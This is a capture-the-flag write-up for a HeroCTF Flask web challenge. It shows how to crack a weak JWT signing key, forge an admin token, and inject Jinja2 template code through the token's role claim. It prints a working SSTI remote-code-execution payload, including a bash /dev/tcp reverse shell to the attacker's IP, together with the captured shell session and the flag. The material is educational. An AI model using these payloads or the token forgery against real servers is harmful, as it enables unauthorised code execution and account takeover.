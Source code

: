 # Drink from my Flask #1

### Category

Web

### Description

A friend of yours got into an argument with a flask developer. He tried handling it himself, but he somehow got his nose broken in the process... Can you put your hacker skills to good use and help him out?

You should probably be able to access the server hosting your target's last project, shouldn't you ? I heard is making a lost of programming mistakes...

> Deploy on [deploy.heroctf.fr](https://deploy.heroctf.fr/)

Format : **Hero{flag}**<br>
Author : **Log_s**

### Write up

The landing page looks like this:

```
Invalid operation

Example: /?op=substract&n1=5&n2=2
```

Trying the calculator with the example from the landing page:
```
Result: 3
```

If we try to access another page, `/admin` for example, we get the following error.

```plain
/admin was not found

Only routes / and /adminPage are available
```

We now know that only the `/` and `/adminPage` routes are available. We could also notice that the `/admin` route we tried to access is reflected on the page. The challenge's name is pretty obvious and we can guess that the website is running on Flask. Let's try a simple payload and access `/{{7*7}}`.

```plain
/49 was not found

Only routes / and /adminPage are available
```

It looks promising at first glance, but there seems to be a filter on the payload's length, since trying to access `/{{cycler.__init__.__globals__.os.popen('id').read()}}` (which is the shortest jinja2 RCE payload yet) returns this error:

```plain
Anormaly long payload
```

Let's move on to `/adminPage`.

```plain
Sorry but you can't access this page, you're a 'guest'
```

We can't access it, because we area 'guest'. Where does this role come from ? We were given a cookie when we first accessed the website. Let's try to decode it.

```plain
$ ./jwt_tool.py "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiZ3Vlc3QifQ.AdxhLneoWOkeXGQFwWUbDzS3J2W6_Re-NbZLP_SRUww"
...
Token header values:
[+] typ = "JWT"
[+] alg = "HS256"

Token payload values:
[+] role = "guest"
...
```

The role seems to be embeded in the jwt token. It's using the HS256 algorithm, which is symetric. If the key is week enough, we should be able to bruteforce it and forge our own tokens.

```plain
$ ./jwt_tool.py "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiZ3Vlc3QifQ.AdxhLneoWOkeXGQFwWUbDzS3J2W6_Re-NbZLP_SRUww" -C -d /usr/share/wordlists/rockyou.txt
...
[+] key is the CORRECT key!
You can tamper/fuzz the token contents (-T/-I) and sign it using:
python3 jwt_tool.py [options here] -S hs256 -p "key"
```

Great ! The key is `key`. Let's alter the token to get the admin role.

```plain
$ ./jwt_tool.py "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiZ3Vlc3QifQ.AdxhLneoWOkeXGQFwWUbDzS3J2W6_Re-NbZLP_SRUww" -T -S hs256 -p "key"
...
Token header values:
[1] typ = "JWT"
[2] alg = "HS256"
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0

Token payload values:
[1] role = "guest"
[2] *ADD A VALUE*
[3] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 1

Current value of role is: guest
Please enter new value and hit ENTER
> admin
[1] role = "admin"
[2] *ADD A VALUE*
[3] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0
jwttool_e28e8fb52fea84deff777ba1bfde5b8a - Tampered token - HMAC Signing:
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiYWRtaW4ifQ.AVjKNp3JWkmYQdHzpEVpAU9pfGSiwJykT3lbWpQYhMY
```

If we replace the cookie with the new value and refresh the page, we get the following result:

```plain
Welcome admin !
```

That's not very helpful... But remember the message we got when our role was `guest`? It seemed like the role was reflected when it was refusing us access to the admin page. Let's try with a jinja2 payload.

```plain
$ ./jwt_tool.py "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiZ3Vlc3QifQ.AdxhLneoWOkeXGQFwWUbDzS3J2W6_Re-NbZLP_SRUww" -T -S hs256 -p "key"
...
Token header values:
[1] typ = "JWT"
[2] alg = "HS256"
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0

Token payload values:
[1] role = "guest"
[2] *ADD A VALUE*
[3] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 1

Current value of role is: guest
Please enter new value and hit ENTER
> {{7*7}}
[1] role = "{{7*7}}"
[2] *ADD A VALUE*
[3] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0
jwttool_321f15016cb6bbb918660a5fa9f949b6 - Tampered token - HMAC Signing:
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoie3s3Kjd9fSJ9.z__5DxmRbygPH1em02OyYj1Zt0GUbIk_zRoQ2twuzU8
```

Refreshing the page with the new cookie gives us the following result:

```plain
Sorry but you can't access this page, you're a '49'
```

It works ! 

Let's switch the payload to a reverse shell payload and get a shell on the server (172.17.0.1 being my attacking machine's IP address).

```python
{{ cycler.__init__.__globals__.os.popen('bash -c \"bash -i >& /dev/tcp/172.17.0.1/9999 0>&1\"').read() }}
```

Reloading the page and wait for our shell:

```plain
$ nc -nlvp 9999
Listening on 0.0.0.0 9999
Connection received on 172.17.0.2 51130
www-data@98c3f56a4ba1:~/app$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@98c3f56a4ba1:~/app$ ls
ls
app.py
flag.txt
www-data@98c3f56a4ba1:~/app$ cat flag.txt
cat flag.txt
Hero{sst1_fl4v0ur3d_c0Ok1e}
```

Congratz!

### Flag

```
Hero{sst1_fl4v0ur3d_c0Ok1e}
```
